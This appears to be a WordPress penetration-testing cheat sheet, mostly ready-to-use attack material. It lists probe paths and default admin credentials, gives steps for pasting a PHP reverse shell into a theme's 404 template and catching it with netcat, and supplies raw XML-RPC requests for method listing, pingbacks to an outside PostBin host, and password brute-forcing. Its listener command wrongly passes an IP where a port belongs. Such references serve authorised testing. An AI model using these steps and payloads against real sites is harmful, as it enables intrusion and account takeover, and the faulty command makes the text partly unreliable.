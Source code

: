 ```yaml
---
title: WordPress Pentesting
desc: Penetration testing on WordPress.
tags: [CMS, Web, WordPress]
alts: [Wpscan]
website:
render_with_liquid: false
---
```


## Common Directories

```sh
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/wp-admin/
/wp-admin/upload.php

# Private/Draft Posts (WordPress <= 5.2.3) 
/?static=1
```

<br />

## Login with Default Credential

```
Access to /wp-login.php.
Login as,

username: admin
password: password
```

<br />

## Reverse Shell Injection (login required)

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

### 1. Get all methods

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

### 2. Ping back

Use [PostBin](https://www.toptal.com/developers/postbin/).

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```

### 3. Brute force users

It is recommended to use Burp Intruder.

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>$password$</value></param> 
</params> 
</methodCall>
```